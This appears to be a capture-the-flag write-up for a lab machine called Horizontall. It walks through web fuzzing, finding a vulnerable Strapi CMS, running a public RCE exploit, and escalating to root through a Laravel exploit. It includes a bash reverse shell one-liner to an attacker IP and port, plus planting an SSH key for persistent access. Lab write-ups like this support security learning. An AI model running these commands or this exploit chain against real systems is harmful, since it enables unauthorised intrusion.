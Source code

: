 # Information Gathering

## Port 80

In port 80 we have a website hosted on an nginx server, although we first have to include the route to the ip (add 10.10.11.105 horizontall.htb to hosts)

The web apparently does not have any interactive field. Check subdomains and subdirs.

- Sub-directory listing wit ``wfuzz -c -u 10.10.11.105/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc=404 --follow --hw=43 -t 200`` did not find any interesting subdirectory. Note we add the ``--follow`` option to follow redirecitons.
- Sub-domain listing with ``wfuzz -c -u 10.10.11.105 -H "HOST: FUZZ.horizontall.htb" -w /home/kali/Desktop/subdomains-top1mil-20000.txt -t 200 --follow --hw=43`` also did not find anything interesting.

At this point, seems like there are no defalult-pages or directories that we can look at. Also, the webpage seems not to be interactive at all, so seems that what we habe only left is to analyze the scripts that the app runs when it loads.

Geting all the petitons made by the app when reloading gives us a buch of petitons, among them, one calls to ``http://horizontall.htb/js/app.c68eb462.js`` so let's take a look on that. Analyzing the code leads to an interesting path: ``http://api-prod.horizontall.htb/reviews``

When we go to that path we find a list of json reviews. If we go to the index, we find a page that only says "Welcome". If we run ``whatweb`` against the new sub-domain we found, we see that its using a CMS called strapi, so lets see if it has known vulnerabilities. Indeed. version 3.0.0-beta 17.4 is vulnerable and has multiple known exploits. searchsploit shows us one with rce located at ``/usr/share/exploitdb/exploits/multiple/webapps/50239.py``. Execute it with python. Then, write command for revershe shell `` bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'``

Once we got access to the machine we can start scanning its content, trying to find something useful. Cronjobs and SUID files are not interesting, but runing an internal port scan with ``netstat -nat`` shows us that some ports that were not open for outside connections are open for inside ones, so lets port forward those to see what's going on. To do that I first created a .ssh directory on ``/opt/strapi`` directory and added my ssh public key to the ``authorized_keys`` file. Next, I do the usual port forwarding with ssh with the command ``ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb``. When looking for that direction on the browser, I see a laravel page. A quick lookup at the version allow us to see that is vulnerable. Using this [exploit](https://github.com/ambionics/laravel-exploits) I get root access.
